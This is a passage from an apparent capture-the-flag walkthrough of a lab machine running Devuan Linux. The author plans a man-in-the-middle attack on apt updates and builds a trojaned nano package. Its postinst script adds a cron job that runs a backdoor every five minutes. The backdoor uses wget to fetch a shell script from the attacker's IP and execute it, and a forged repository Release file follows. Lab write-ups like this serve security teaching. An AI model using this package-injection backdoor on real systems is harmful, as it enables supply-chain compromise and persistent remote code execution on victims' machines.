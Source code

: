The box is running Devuan Linux, a Linux distro for hipsters who don't like systemd. Interestingly, there are two different apt sources configured:

```
www-admin-data@onetwoseven:/$ ls -l /etc/apt/sources.list.d
total 8
-rw-r--r-- 1 root root 211 Feb 15 17:22 devuan.list
-rw-r--r-- 1 root root 102 Feb 15 17:22 onetwoseven.list

www-admin-data@onetwoseven:/$ cat /etc/apt/sources.list.d/onetwoseven.list
# OneTwoSeven special packages - not yet in use
deb http://packages.onetwoseven.htb/devuan ascii main
```

It's pretty clear here that I need to do some kind of Man-In-The-Middle (MITM) attack on the apt upgrade process.

I did some googling and found a nice blog explaining how to perform the MITM attack on apt-get: [https://versprite.com/blog/apt-mitm-package-injection/](https://versprite.com/blog/apt-mitm-package-injection/). I'm not gonna rehash the entire blog article here, but the main elements of my attack are shown below.

I pick nano as my target for a malicious package: `nano_3.0.0_amd64.deb`

The `postinst` adds a cronjob that executes `/bin/nano_backdoor` every 5 minutes:

```
#!/bin/sh

set -e

if [ "$1" = "configure" ] || [ "$1" = "abort-upgrade" ]; then
    update-alternatives --install /usr/bin/editor editor /bin/nano 40 \
      --slave /usr/share/man/man1/editor.1.gz editor.1.gz \
      /usr/share/man/man1/nano.1.gz
    update-alternatives --install /usr/bin/pico pico /bin/nano 10 \
      --slave /usr/share/man/man1/pico.1.gz pico.1.gz \
      /usr/share/man/man1/nano.1.gz
fi

crontab -l | { cat; echo "*/5 * * * * /bin/nano_backdoor "; } | crontab -
```

`nano_backdoor` just downloads and executes a shell script from my box:

```
#!/bin/sh
rm /tmp/snowscan.sh
wget http://10.10.14.23/snowscan.sh -O /tmp/snowscan.sh
chmod 777 /tmp/snowscan.sh
/tmp/snowscan.sh
```

The `/devuan/dists/ascii/Release` looks like this:

```
# cat Release
Origin: Devuan
Label: Devuan
Suite: stable
Version: 2.0
Codename: ascii
Date: Wed, 20 Apr 2019 05:00:00 UTC
Architectures:  amd64
Components: main contrib non-free raspi beaglebone droid4 n900 n950 n9 sunxi exynos
SHA256:
 947ab0bff476deda21dbab0c705b14211718ed357d5ca75e707bea4bdc762c59 770 main/binary-amd64/Packages
 7c18ea11cba4acd2a3fdcea314c2b816787cecc4aaad2ae75667553cf700769b 551 main/binary-amd64/Packages.xz
```
